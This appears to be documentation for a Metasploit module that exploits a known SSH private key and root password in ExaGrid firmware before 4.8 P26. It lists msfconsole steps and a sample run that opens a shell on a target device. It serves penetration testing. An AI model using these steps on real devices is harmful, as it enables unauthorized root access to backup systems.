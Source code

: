 ## Vulnerable Application

  ExaGrid devices having a firmware before version 4.8 P26 contain a known ssh private key, and root password

## Verification Steps

  Example steps in this format:

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/exagrid_known_privkey`
  3. Do: `set rhost <ip>`
  4. Do: `exploit`
  5. You should get a shell.

## Scenarios

This is a run against a known vulnerable ExaGrid device.
```
msf > use exploit/linux/ssh/exagrid_known_privkey
msf exploit(exagrid_known_privkey) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(exagrid_known_privkey) > run

[+] Successful login
[*] Command shell session 3 opened (140.172.223.184:39269 -> 1.2.3.4:22) at 2016-07-23 10:03:19 -0400

ExaGrid diagnostic tools are available in this shell.
02:05:49 up 12 days, 9:12, 0 users, load average: 3.32, 2.88, 9.21
```